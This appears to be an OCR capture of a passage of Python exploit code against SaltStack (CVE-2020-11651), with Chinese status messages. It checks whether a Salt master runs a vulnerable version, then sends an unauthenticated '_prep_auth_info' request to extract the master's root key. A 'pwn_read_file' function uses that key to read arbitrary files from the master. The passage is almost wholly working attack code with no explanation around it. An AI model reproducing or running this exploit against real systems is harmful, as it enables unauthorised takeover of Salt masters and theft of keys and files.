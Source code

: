 ```python
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')


def check_salt_version():
    print("[+] Salt 版本: {}".format(salt.version.__version__))

    vi = salt.version.__version_info__

    if (vi < (2019, 2, 4) or (3000,) <= vi < (3000, 2)):
        return True
    else:
        return False


def check_connection(master_ip, master_port, channel):
    print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
    sys.stdout.flush()
    try:
        channel.send({'cmd': 'ping'}, timeout=2)
        print('\033[1;32m可以连接\033[0m')
    except salt.exceptions.SaltReqTimeoutError:
        print("\033[1;31m无法连接\033[0m")
        sys.exit(1)


def check_CVE_2020_11651(channel):
    sys.stdout.flush()
    # try to evil
    try:
        rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
    except salt.exceptions.SaltReqTimeoutError:
        print("\033[1;32m不存在漏洞\033[0m")
    except:
        print("\033[1;32m未知错误\033[0m")
        raise
    else:
        pass
    finally:
        if rets:
            root_key = rets[2]['root']
            print("\033[1;31m存在漏洞\033[0m")
            return root_key

    return None


def pwn_read_file(channel, root_key, path, master_ip):
    # print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])
```